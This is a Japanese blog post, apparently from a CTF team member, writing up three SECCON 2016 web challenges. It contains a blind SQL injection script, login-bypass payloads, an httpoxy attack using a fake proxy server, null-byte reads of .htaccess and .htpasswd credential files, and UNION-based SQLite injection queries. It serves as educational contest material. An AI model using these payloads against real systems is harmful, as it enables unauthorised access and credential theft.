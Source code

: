 ```yaml
---
layout: post
title: SECCON 2016 オンライン予選に参加しました
categories: [ctf]
date: 2016-12-11 16:53:00 +0900
---
```


hiww さん ([@hiww](https://twitter.com/hiww)) のお誘いでチーム [Harekaze](http://harekaze.com/) として SECCON 2016 Online CTF に参加しました。
最終的にチームで 1300 点を獲得し、チーム順位は 61 位 (得点 930 チーム中) でした。

私は Web カテゴリの問題を中心に取り組んで、

- basiq (Web 100)
- pppppoxy (Web 200)
- uncomfortable web (Web 300)

の 3 問を解きました。

## basiq (Web 100)
以前見たことがあるような競馬のサービスから admin のパスワードを手に入れる問題でした。

どこから攻めればいいのか分からずだいぶ悩んでいましたが、[@tatarhy](https://twitter.com/tatarhy) さんのコメントで http://basiq.pwn.seccon.jp/admin/ にアクセスすると認証ダイアログが表示されると分かりました。

これは怪しいと思い、試しにユーザ名に `admin`、パスワードに `' or 1;#` と入力するとログインに成功しました。
また、ユーザ名に `admin`、パスワードに `' and 0;#` と入力するとログインに失敗しました。

このことから Blind SQLi ができるのではないかと考え、まず以下のコードで確かに情報を抜けることを確認しました。

```python
import requests
import sys

def check(c):
  return c == 200

url = 'http://basiq.pwn.seccon.jp/admin/'
query = "' and 0 or substr(version(), {}, 1) <= binary 0x{:x};#" # => 

i = 1
res = ''

while True:
  high = 0x7e
  low = -1

  while abs(high - low) > 1:
    mid = (high + low) // 2

    c = requests.get(url, auth=('admin', query.format(i, mid)))

    if check(c.status_code):
      high = mid
    else:
      low = mid

  res += chr(high)
  print(i, res)
  i += 1
```

結果は `5.5.50-MariaDB` でした。

続いてどのようなデータベースがあるか確認するため、`query` を `' and 0 or substr((select group_concat(distinct hex(table_schema)) from information_schema.tables where table_schema != 'information_schema'), {}, 1) <= binary 0x{:x};#` に変え実行しました。`keiba` というデータベースがあると分かりました。

さらに `information_schema.columns` からテーブル名とカラム名を抜き出すと、`id` `name` `pass` というカラムを持つ `☹☺☻` (`\u2639\u263a\u263b`) というテーブルがあると分かりました。

あとは `keiba.☹☺☻` からパスワードを抜き出すだけです。

```
SECCON{Carnival}
```

## pppppoxy (Web 200)
配布された `pppppoxy.exe` という実行ファイルを実行すると、ブラウザで `127.0.0.1:81` が開かれました。`127.0.0.1:81` では Web アプリが動いており、これの認証を突破する問題でした。この問題は Harekaze が first solve でした。

この問題名から思い出されるのは、[httpoxy](https://httpoxy.org/) という脆弱性です。

試しに `python -m SimpleHTTPServer 8000` で待ち受けながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=hoge" -H "Proxy: http://127.0.0.1:8000"` を実行してみました。すると、`GET http://127.0.0.1:81/Authenticator?user=admin HTTP/1.0` という HTTP リクエストが飛んできました。ビンゴです。

`http://127.0.0.1:81/Authenticator?user=admin` にアクセスすると `{"hash":"C432A8174394A3F655B2BD29BB075E4C"}` という JSON が返ってきました。このハッシュは文字数からしておそらく MD5 でしょう。

これを利用して、以下のようなコードを書きました。

```python
from flask import Flask
app = Flask(__name__)

@app.errorhandler(404)
def not_found(e):
    return '{"hash":"21232F297A57A5A743894A0E4A801FC3"}', 404

if __name__ == "__main__":
    app.run(port=8000)
```

これを動かしながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=admin" -H "Proxy: http://127.0.0.1:8000"` を実行するとフラグが出ました。

```
SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}
```

## uncomfortable web (Web 300)
シェルスクリプトやらなんやらを実行できる Web アプリと、その Web アプリからのみアクセスできる Web アプリがあり、前者から後者を攻略する問題でした。

この問題もどこから攻めればいいのかが分からず悩んでいましたが、`curl "http://127.0.0.1:81/select.cgi?txt=a.txt%00"` のように null バイトを入れるとよいと気付いて進捗しました。

`/authed/` 下を見る認証に必要な情報を得るために `http://127.0.0.1:81/select.cgi?txt=.htaccess%00` で `.htaccess` を抜き出しました。

```
AuthUserFile /var/www/html-inner/authed/.htpasswd
AuthGroupFile /dev/null
AuthName "SECCON 2016"
AuthType Basic
Require user keigo
```

認証に使用するユーザ名とパスワードの一覧は `.htpasswd` に格納されているようです。同じように抜き出しました。

```
keigo:LdnoMJCeVy.SE
```

gen さん ([@neglect_yp](https://twitter.com/neglect_yp)) がパスワードは `test` であるとコメントされていたので、得られた情報から `/authed/` 下を見ると以下のような構成になっていました。

```
[TXT]	a.txt	30-Nov-2016 09:59	888	 
[TXT]	b.txt	28-Nov-2016 12:00	78	 
[TXT]	c.txt	30-Nov-2016 10:04	48	 
[DIR]	sqlinj/	28-Nov-2016 11:41	-	 
```

`/authed/sqlinj/` 下は `{1..100}.cgi` という感じで 100 個のファイルがあり、そのいずれかで SQLi が行えるようでした。

HTML のコメントに `<!-- by KeigoYAMAZAKI, 2016.11.25- -->` とあったため、`SQLite` を使用していると考え、以下のコードでどのファイルで SQL インジェクションが行えるか確かめました。

```python
#!/usr/bin/python
import requests
for x in range(1, 101):
  print '[' + str(x) + ']'
  print requests.get('http://127.0.0.1:81/authed/sqlinj/{0}.cgi?no=\'||\'4822267938'.format(x), auth=('keigo', 'test')).content
```

`72.cgi` で SQL インジェクションが行えると分かりました。あとはやるだけです。

`http://127.0.0.1:81/authed/sqlinj/72.cgi?no=4822267939' union select 1, 2, (select group_concat(sql) from sqlite_master) where 1 or '` で `f1ag` というカラムを持つ `f1ags` というテーブルがあると分かります。

`select group_concat(sql) from sqlite_master` を `select group_concat(f1ag) from f1ags` に変えるとフラグが出ました。

```
SECCON{I want to eventually make a CGC web edition... someday...}
```
